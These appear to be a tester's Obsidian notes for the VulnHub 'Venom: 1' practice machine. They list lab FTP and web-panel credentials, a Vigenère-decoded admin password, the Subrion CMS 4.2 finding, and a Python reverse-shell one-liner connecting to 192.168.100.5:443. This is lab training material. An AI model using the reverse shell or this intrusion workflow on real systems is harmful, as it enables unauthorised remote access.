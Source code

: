 https://www.vulnhub.com/entry/venom-1,701/


---

**S1REN's Template Reference**

\[OS]: Unix
\[Web-Technology]: 
\[Hostname]:  
\[IP]:  192.168.100.4
\[USERS]:   
\[CREDENTIALS]:  hostinger

FTP: hostinger: hostinger
http://venom.box/panel/ - dora: E7r9t8@Q#h%Hy+M1234
nathan :: FzN+f2-rRaBgvALzj*Rk#_JJYfg8XfKhxqB82x_a

---
\[To-Try LIST]:  
21:  ftp        vsftpd 3.0.3
![[Pasted image 20250819033712.png]]
![[Pasted image 20250819033823.png]]
└─$ cat hint.txt         
	Hey there... 

T0D0 --

You need to follow the 'hostinger' on 

WXpOU2FHSnRVbWhqYlZGblpHMXNibHBYTld4amJWVm5XVEpzZDJGSFZuaz0=  -> standard vigienere cipher

aHR0cHM6Ly9jcnlwdGlpLmNvbS9waXBlcy92aWdlbmVyZS1jaXBoZXI= -> https://cryptii.com/pipes/vigenere-cipher


some knowledge of cipher is required to decode the **dora** password..
try on 
password -- L7f9l8@J#p%Ue+Q1234 -> deocode this you will get the **administrator** password 


admin :: dora
encrypted :: L7f9l8@J#p%Ue+Q1234
key :: hostinger
decrypted :: E7r9t8@Q#h%Hy+M1234
to try on: venom.box 


venom.box -> add to hosts -> webpage -> Powered by Subrion 4.2

![[Pasted image 20250819041003.png]]

rev shell:
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.100.5",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'`

![[Pasted image 20250819042218.png]]


---
\[NMAP RESULTS]:  


--- 

\[Web Services Enumeration]:   




========================================================================= \[OTHER / PRIVILEGE-ESCALATION]:   =========================================================================Take Away Concepts: *  *  *

    
    HOTKEYS! Background: Black Foreground (important elements): Red Background-Color: Select Text > Shift + Alt + B + ENTER Foreground Color: Select Text > Shift + Alt + F + ENTER Move quickly with: Function key + left and right arrows Cntrl + left and right arrows Cntrl + Shift (select text) (edited)
